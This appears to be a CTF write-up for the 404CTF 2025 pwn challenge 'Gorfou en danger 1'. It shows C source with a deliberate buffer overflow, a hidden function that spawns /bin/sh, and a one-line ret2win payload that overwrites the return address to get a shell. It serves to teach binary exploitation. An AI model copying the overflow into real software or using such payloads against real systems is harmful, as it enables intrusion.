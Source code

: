 ```yaml
---
layout: post
title: Gorfou en danger 1
date: 06/06/2025
categories: [ctf, pwn]
tag: [pwn, ctf]
author: Paw
description: wu for the gorfou en danger 1 in 404CTF
---
```



```C
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>

void menu() {
    puts("      __                                                                     ");
    puts("     /\\ \\                                                                  ");
    puts("    /  \\ \\      .--------------------------------------------------------. ");
    puts("   / /\\ \\ \\     |░█▀▄░█▀▀░█▀▀░█▀▀░░░█▀▀░█▀█░█▀█░█▀▀░█▀█░█░░░█▀▀░░░█░█░▀█░|");
    puts("  / / /\\ \\ \\    |░█░█░█░█░▀▀█░█░█░░░█░░░█░█░█░█░▀▀█░█░█░█░░░█▀▀░░░▀▄▀░░█░|");
    puts(" / / /__\\_\\ \\   |░▀▀░░▀▀▀░▀▀▀░▀▀▀░░░▀▀▀░▀▀▀░▀░▀░▀▀▀░▀▀▀░▀▀▀░▀▀▀░░░░▀░░▀▀▀|");
    puts("/ / /________\\  '--------------------------------------------------------'  ");
    puts("\\/___________/                                                              ");
}

void debug_access(void) {
    puts("Accès à l'interface de debogage...");

    __asm__(
        ".intel_syntax noprefix;"
        "push 0x0;"
        ".att_syntax;"
    );
    
    system("/bin/sh");
    return;
}

void take_command() {
    char command[0x100];
    
    printf("> ");
    read(0, command, 0x130);
    printf("Commande inconnue\n");
}

int main(void) {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    menu();

    printf("Terminal de contrôle à distance de la base martienne Fermat\n");

    while (1) {
        take_command();
    }

    return 0;
}
```
This challenge was purposed in 404CTF 2025
> In this challenge the source code was given


We can some function called `debug_access`, it's a ret2win challenge. 

In a ret2win challenge you just have to find the offset to crush the EIP/RIP and return the function address.
> offset + return adress

```bash
gorfou-en-danger-1 readelf -s ./chall| grep "debug"
    42: 00000000004004fd    29 FUNC    GLOBAL DEFAULT    4 debug_access
```
so we just have to put the address in little endian 
debug adress in little endian : `\xfd\x04@\x00\x00\x00\x00\x00`
solution : 
```bash
(echo "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xfd\x04@\x00\x00\x00\x00\x00";cat) | ./chall
```

